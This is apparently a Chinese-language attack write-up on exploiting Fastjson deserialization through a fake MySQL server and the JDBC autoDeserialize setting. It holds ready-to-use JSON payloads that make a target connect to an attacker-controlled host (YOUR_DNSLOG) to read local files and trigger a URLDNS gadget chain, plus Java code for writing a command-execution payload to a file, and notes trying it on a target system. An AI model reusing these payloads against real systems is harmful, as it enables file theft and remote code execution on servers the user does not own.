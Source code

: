   
python3.8+用这个https://github.com/clown1ay/MySQL_Fake_Server  
  
  
首先进行文件读取，user指定要读取的文件  
  
```
{  "@type": "java.lang.AutoCloseable",  "@type": "com.mysql.jdbc.JDBC4Connection",  "hostToConnectTo": "YOUR_DNSLOG",  "portToConnectTo": 7777,  "info": {    "user": "win_ini",    "password": "pass",    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",    "autoDeserialize": "true",    "NUM_HOSTS": "1"  },  "databaseToConnectTo": "dbname",  "url": ""}
```  
  
本地和目标系统都读取不成功，本地  
mysql-connector-java为5.1.47  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF2nanSbDREKQzeAzvK5Ta0ibfHeV4hkCYiaeIwNYm2Bb7X7cDUBmziagS9EmvTWwNAq4zzkqPryb6MRQ/640?wx_fmt=png&from=appmsg "")  
  
  
转战反序列化，先进行DNSURL利用链探测，反序列化操作是否成功  
  
```
{  "@type": "java.lang.AutoCloseable",  "@type": "com.mysql.jdbc.JDBC4Connection",  "hostToConnectTo": "YOUR_DNSLOG",  "portToConnectTo": 7777,  "info": {    "user": "yso_URLDNS_http://YOUR_DNSLOG",    "password": "pass",    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",    "autoDeserialize": "true",    "NUM_HOSTS": "1"  },  "databaseToConnectTo": "dbname",  "url": ""}
```  
  
本地演示  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF2nanSbDREKQzeAzvK5Ta0ibIm2UDoP8vib5O5THpQdsAmiaKOB0icIm5ibZticOTogcfVmoEttsiaT82oOg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF2nanSbDREKQzeAzvK5Ta0ibVrJ1o9OuP7VzBEaCIZE7tdUKkXQxrsyoBv9YhsIicJQr1xA3PVibJxYA/640?wx_fmt=png&from=appmsg "")  
  
  
既然能正常执行反序列化操作，那么下一步就需要测试命令执行。这里使用到了@Y4tacker大佬给出的利用链  
  
  
https://paper.seebug.org/2067/  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF2nanSbDREKQzeAzvK5Ta0ib1eWXpB1zdJuBo02Yj6xIyZUFr0Clk67p5qFI7WAYO1rs0z2ukLtdsQ/640?wx_fmt=png&from=appmsg "")  
  
## 代码微调  
  
  
直接拿文章中给出的代码进行修改，添加这段代码，将反序列化的内容保存到文件中。自定义执行命令  
  
```
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("fastjson1268.bin"));oos.writeObject(hashMap);oos.close();
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF2nanSbDREKQzeAzvK5Ta0ib8RE5rib3Pq090XvdcrulhqfVAuHK5ghMl24OMozvHhVcXLqicE5Se2Eg/640?wx_fmt=png&from=appmsg "")  
  
  
还要修改MySQL_Fake_Server  
项目server.py文件，get_yso_content函数的内容，让其从指定文件中读取  
  